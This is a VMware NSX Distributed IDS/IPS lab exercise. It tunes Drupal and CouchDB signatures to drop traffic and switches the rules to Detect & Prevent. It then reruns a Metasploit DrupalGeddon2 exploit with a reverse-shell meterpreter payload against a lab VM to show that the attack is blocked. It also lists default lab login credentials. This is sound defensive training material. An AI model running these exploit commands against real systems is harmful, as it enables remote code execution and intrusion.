 
## 8. Preventing an Attack
**Estimated Time to Complete: 30 minutes**

In this exercise, we will show how the NSX Distributed IDS/IPS can just detect but also prevent an attack. We will run the same attack scenario as before.

**Tune the Web-FrontEnd Profile**

In order to prevent an attack, we need to both change the mode in our IDS/IPS rule(s) to **detect and prevent** and ensure that relevant signature actions are set to either **drop** or **reject**.
The default VMware-recommend signature action can be overrided both at the global level, or within a profile. For the purpose of this lab, we will make the modification within the profile.
Besides changing the signature action, you can also disable signatures as the global or per-profile level, which may be needed in case of false-positives.

1. In the NSX Manager UI, navigate to Security -->  Distributed IDS/IPS --> Profiles
2. Click the 3 dots icon next to the  **Web-FrontEnd** profile and then click **Edit**.
3. Click **Manage signatures for this profile**.
4. In the Filter field, select **Product Affected** and type **drupal_drupal** and click **Apply** to only show the signatures related to Drupal.

![](assets/images/IDPS_POC_56.PNG)

5. You should see a filtered list with 4 signatures (may be different if you have a different signature package version deployed). 
5. For each of the signatures displayed, set the Action to **Drop** or **Reject**. Click **Apply** to confirm.

![](assets/images/IDPS_POC_57.PNG)

6. Click **SAVE** to save the changes to the **Web-FrontEnd** profile.

**Tune the Web-FrontEnd Profile**

Now we will also set the action for signatures related to **CouchDB** in the **Databases** profile to **Drop**.

1. In the NSX Manager UI, navigate to Security -->  Distributed IDS/IPS --> Profiles
2. Click the 3 dots icon next to the  **Databasesprofile** and then click **Edit**.
3. Click **Manage signatures for this profile**.
4. You should see a filtered list with 7 signatures (may be different if you have a different signature package version deployed). 
5. Click the selection box on top to select all signatures.  
6. Click the **ACTION** button on top and choose **Drop** to change the action for all selected signatures to **Drop**. Click **Apply** to confirm.
7. Click **SAVE** to save the changes to the **Databases** profile.

**Change the IDS/IPS Mode to Detect & Prevent**

For each IDS/IPS Rule, you can set the mode to **Detect Only** or **Detect & Prevent**. This mode effecively limits the action that can be taken. When deployed in **Detect Only** mode, the only action that will be taken when a signature is triggerd is an **Alert** will be generated, regardless of the action set for the signature. In **Detect & Prevent** mode on the other hand, the action set on each signature is applied.

1. In the NSX Manager UI, navigate to Security -->  Distributed IDS/IPS --> Rules
2. Click the **>** icon to expand the **NSX IDPS Evaluation** Policy. **ADD POLICY**
3. For both the **App-Tier Policy** and **Web-Tier Policy** rule, change the mode from **Detect Only** to **Detect & Prevent**.

![](assets/images/IDPS_POC_57.PNG)

4. Click **PUBLISH** to commit the changes.

**Open a SSH/Console session to the External VM**
1.	If your computer has access to the IP address you've assigend to the **External VM** (10.114.209.151 in my example), open your ssh client and initiate a session to it. Login with the below credentials. 
    * Username **vmware**
    * Password **VMware1!**
2. **Alternatively**, if your computer does not have access to the **External VM** directly, you can access the VM console from the  physical environment vCenter Web-UI. 

**Initiate DrupalGeddon2 attack against the App1-WEB-TIER VM (again)**
1.	Type **sudo msfconsole** to launch **Metasploit**. Enter **VMware1!** if prompted for a password. Follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **use exploit/unix/webapp/drupal_drupalgeddon2** to select the drupalgeddon2 exploit module
    * Type **set RHOST 192.168.10.101** to define the IP address of the victim to attack. The IP address should match the IP address of **App1-WEB-TIER VM**
    * Type **set RPORT 8080** to define the port the vulnerable Drupal service runs on. 
    * Type **exploit** to initiate the exploit, esbalish a reverse shell
    
2.	Confirm that as a **detect & prevent** policy is applied to the WEB-TIER VMs, the exploit attempt was prevented and no meterpreter session was established. Because the initial exploit was not successful, lateral movement to the iternal segment is also prevented.

```console
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > use exploit/unix/webapp/drupal_drupalgeddon2
[*] Using configured payload php/meterpreter/reverse_tcp
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > set RPORT 8080
RPORT => 8080
msf5 exploit(unix/webapp/drupal_drupalgeddon2) > exploit

[*] Started reverse TCP handler on 10.114.209.151:4444
[*] Exploit completed, but no session was created.
msf5 exploit(unix/webapp/drupal_drupalgeddon2) >

```
**Confirm IDS/IPS Events show up in the NSX Manager UI**
1.	In the NSX Manager UI, navigate to Security -->  Security Overview
2. Under the **Insights** tab, confirm you see a number of attempted intrusion against the  **APP-1-WEB-TIER** workload
![](assets/images/IDPS_POC_53.PNG)
3. Navigate to Security --> East West Security --> Distributed IDS
4. Confirm 2 signatures have fired:
    * Signature for **DrupalGeddon2**, with **APP-1-WEB-TIER** as Affected VM
    * Signature for **Remote Code execution via a PHP script**, with **APP-1-WEB-TIER** as Affected VM
    
    ![](assets/images/IDPS_POC_59.PNG)

5. Now you can drill down into these events. Click the **>** symbol to the left of the **ET WEB_SPECIFIC_APPS [PT OPEN] Drupalgeddon2 <8.3.9 <8.4.6 <8.5.1 RCE Through Registration Form (CVE-2018-7600)** event near the bottom of the table to expand this event. 
    * Confirm that the IP addresses of the attacker and victim match with the **External VM** and **APP-1-WEB-TIER VM** respectlively.
    * click the **green bar (Prevented)** to see details about the exploit attempts. You may see multiple attemts (from different ports) as Metasploit initiated multiple connections

  ![](assets/images/IDPS_POC_60.PNG)

You have now successfully prevented the initial exploit and further lateral movement.
This completes this exercise and the lab. You may continue with some optional exercises. 

This completes this exercise and the lab. You may continue with some optional exercises. See  

Before moving to the next exercise, folow [these instructions](/docs/ClearingIDSEvents.md) to clear the IDS events from NSX Manager

---

[***Next Step (Optional): 9. Segmentation***](/docs/9-Segmentation.md)
